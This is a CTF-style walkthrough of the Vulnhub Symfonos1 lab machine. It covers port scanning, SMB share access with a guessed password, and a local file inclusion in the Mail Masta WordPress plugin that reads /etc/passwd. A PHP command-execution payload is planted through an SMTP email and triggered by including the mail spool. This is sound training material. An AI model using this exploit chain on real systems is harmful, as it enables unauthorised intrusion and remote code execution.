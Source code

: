 ```yaml
---
title: Vulnhub - Symfonos1
description: My writeup on Symfonos1 box.
categories:
 - vulnhub
tags: vulnhub smb smbmap smbclient wpscan
---
```


![](https://cdn.wallpapersafari.com/81/76/h4VwOi.jpg)

Hi all, Let's start this awesome series! 

You can find the machine there > [Symfonos1](https://www.vulnhub.com/entry/symfonos-1,322/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.12
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-15 22:14 EEST
Nmap scan report for symfonos.local (192.168.1.12)
Host is up (0.000075s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:7E:E4:6F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.93 seconds
$ nmap -p 22,25,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-15 22:15 EEST
Nmap scan report for symfonos.local (192.168.1.12)
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 00:0C:29:7E:E4:6F (VMware)
```

Lot of things to enumerate, but first let's add the `symfonos.local` to our `hosts` file as the box description says.

`192.168.1.12    symfonos.local`

Let's start with SMB, let's list the shares. I'll show you 2 ways to do that:

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.12:445	Name: symfonos.local                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	helios                                            	NO ACCESS	Helios personal share
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
```

```
$ smbclient -L //$ip
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	helios          Disk      Helios personal share
	anonymous       Disk      
	IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
```

Let's connect to `anonymous` share since we have `READ ONLY` permission.

![](https://i.imgur.com/rty1KWr.png)

Great, we have 3 possible passwords -> `epidioko:qwerty:baseball`. We can see a `helios` share, that's a username. After some tries i found the right password:

```
$ echo qwerty | smbclient //$ip/helios -U helios    
Enter WORKGROUP\helios's password: 
Try "help" to get a list of possible commands.
```

Let's connect to it and download the files.

![](https://i.imgur.com/sKGmF10.png)

`todo.txt` has an interesting directory:

```
$ cat todo.txt 

1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```

It's a wordpress site:

![](https://i.imgur.com/U086gAJ.png)

## SMTP log poisoning - shell as www-data

Let's run `wpscan` on it.

```
$ wpscan --no-banner --url http://symfonos.local/h3l105/ -e ap
[+] URL: http://symfonos.local/h3l105/ [192.168.1.12]
[+] Started: Wed Jul 15 22:53:20 2020

Interesting Finding(s):

..junk data..

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
```

`mail-masta` plugin seems interesting. Let's search for possible exploits.

```
$ searchsploit mail masta
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion                                                                                                 | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection                                                                                                        | php/webapps/41438.txt
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Let's check the LFI one & we have LFI:

```
$ curl "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd" 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
Debian-exim:x:105:109::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
helios:x:1000:1000:,,,:/home/helios:/bin/bash
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:109:115::/var/spool/postfix:/bin/false
```

Now we need to find a way to get shell, i stuck here for a bit. But then i noticed that `SMTP` is open.

SMTP(Simple Mail Transfer Protocol) server send & receive emails.

We can do SMTP log poisoning, we will send an email to user helios with our payload:

```
$ telnet $ip 25
Trying 192.168.1.12...
Connected to 192.168.1.12.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO pwned.pwn
250 symfonos.localdomain
MAIL FROM: atom@pwned.com
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: <?php echo system($_GET["cmd"]); ?>
Hello! :)
.
250 2.0.0 Ok: queued as EF2F340698
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Now the local mailbox is under `/var/mail/$USER` and we have RCE:

```
$ curl -s "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=ls+-la" | tail -3
-rwxr-xr-x 1 helios helios 23492 Jun 28  2019 view-campaign.php
-rwxr-xr-x 1 helios helios 23492 Jun 28  2019 view-campaign.phpHello!:)
```
